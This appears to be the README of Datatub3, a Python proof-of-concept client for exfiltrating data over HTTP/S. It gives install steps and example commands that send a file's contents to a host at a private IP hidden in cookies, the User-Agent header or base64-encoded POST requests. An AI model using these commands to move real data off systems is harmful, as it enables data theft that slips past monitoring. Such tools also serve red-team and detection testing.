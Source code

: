 # Datatub3

Tool development to make PoC of Data Exfiltration HTTP/S (Client Version).

![Datatub3](https://i.imgur.com/PJzFODI.png)

# Install

 $ git clone https://github.com/xf5/datatub3

 $ python3 datatub3.py

# Exfiltration Features
- User-Agent
- Cookie
- POST Request
- GET Request
- All requests encoded with Base 64

# Exemples
## Exfiltration Cookie
python3 datatub3.py -u http://192.168.137.129 --cookie poc.txt

## Exfiltration User-Agent
python3 datatub3.py -u http://192.168.137.129 --useragent poc.txt

## Exfiltration Base 64
python3 datatub3.py -u http://192.168.137.129 –post-b64 poc.txt

![Command](https://i.imgur.com/Eoe2Kol.png)

![Packet](https://https://i.imgur.com/IR69st8.png)

# Requirements
- Python 3
